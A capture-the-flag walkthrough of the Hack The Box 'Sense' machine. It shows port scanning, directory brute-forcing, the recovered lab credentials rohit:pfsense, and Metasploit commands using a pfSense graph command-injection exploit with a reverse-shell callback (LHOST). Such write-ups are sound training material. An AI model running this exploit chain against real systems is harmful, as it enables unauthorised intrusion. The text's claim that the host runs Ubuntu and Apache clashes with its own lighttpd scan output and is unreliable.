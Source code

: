 ![logo](/logo.png)

# [Sense- BOX]  
Hi folks, today I am going to solve an Easy rated hack the box machine which was released on 21 Oct 2017 as the tenth machine on HTB,Sense created by [lkys37en](https://app.hackthebox.com/users/709) .So without any further intro, let'sf jump in.

# common enumeration

## Nmap
  *http
  *
  *OpenBSD
  
###### code-nmap

```code
nmap -sV -sC -oA nmap/sense 10.10.10.60
```

###### Output 

![](/Linux/Linux-Easy/OpenBSD/Sense/Screenshots/nmap.png)

```sh
 nmap -sV -sC -oA nmap/sense 10.10.10.60                                                                                           ─╯
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-08-29 18:46 EAT
Nmap scan report for 10.10.10.60
Host is up (0.33s latency).
Not shown: 998 filtered tcp ports (no-response)
PORT    STATE SERVICE  VERSION
80/tcp  open  http     lighttpd 1.4.35
|_http-title: Did not follow redirect to https://10.10.10.60/
|_http-server-header: lighttpd/1.4.35
443/tcp open  ssl/http lighttpd 1.4.35
|_http-server-header: lighttpd/1.4.35
| ssl-cert: Subject: commonName=Common Name (eg, YOUR name)/organizationName=CompanyName/stateOrProvinceName=Somewhere/countryName=US
| Not valid before: 2017-10-14T19:21:35
|_Not valid after:  2023-04-06T19:21:35
|_http-title: Login
|_ssl-date: TLS randomness does not represent time

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 64.73 seconds
```

looking at the results  we find out that there are 2 ports open and its a `Ubuntu`and its running an `Apache`. 

port[80]-  http
port[443]-http

So when we go the browser at [http://10.10.10.60](http://10.10.10.60)  looking at the browser we find a page that we have to connect a certificate.

![](/Linux/Linux-Easy/OpenBSD/Sense/Screenshots/ssl.png)

and  we find the certificate but nothing of important 

![](/Linux/Linux-Easy/OpenBSD/Sense/Screenshots/certificate.png)

and we find a browser with a login credentials of `Pf Sense`

![](/Linux/Linux-Easy/OpenBSD/Sense/Screenshots/sense.png)

so lets do a `gobuster` to enumerate all directories 

```sh
gobuster dir -u https://10.10.10.60 -w /usr/share/seclists/Discovery/Web-Content/raft-medium-words-lowercase.txt -k --no-error 
```

![](/Linux/Linux-Easy/OpenBSD/Sense/Screenshots/gobuster.png)

with the lowercase medium wordlist, finds a `changelog.txt` file which states 2 of 3
vulnerabilities have been patched. It also finds a `system-user.txt` creds:`rohit:pfsense

![](/Linux/Linux-Easy/OpenBSD/Sense/Screenshots/systemuser.png)

By using the credential above we then log into the account

![](/Linux/Linux-Easy/OpenBSD/Sense/Screenshots/logiin.png)

Many of the endpoings in the web gui are not actually implemented. There’s nothing in the Interfaces, Firewall, Services, VPN, Diagnostics, or Help menus. System only has Logout. There is a full menu in Status:

I get a `Graph RDS` which by searching it has a vulnerability 

![](/Linux/Linux-Easy/OpenBSD/Sense/Screenshots/graph.png)

```sh
searchsploit pfsense
```

![](/Linux/Linux-Easy/OpenBSD/Sense/Screenshots/searchsploit.png)

lets examine the exploit

```sh
searchsploit -m 43560
```

![](/Linux/Linux-Easy/OpenBSD/Sense/Screenshots/python.png)

looking at the exploit its `encoding payload to octal`

okay lets start `meterpreter`

```sh
search pfsense_graph_injection_exec
use 0
show options
set PASSWORD pfsense
set RHOST 10.10.10.60
set RPORT 443
set USERNAME rohit
set LHOST 10.10.14.15
```

Then just like that we get the `meterpreter`

![](/Linux/Linux-Easy/OpenBSD/Sense/Screenshots/meterpreter.png)

since it root lets get the flags

![](/Linux/Linux-Easy/OpenBSD/Sense/Screenshots/flags.png)

	-------------------------END successful attack @lesley----------------------






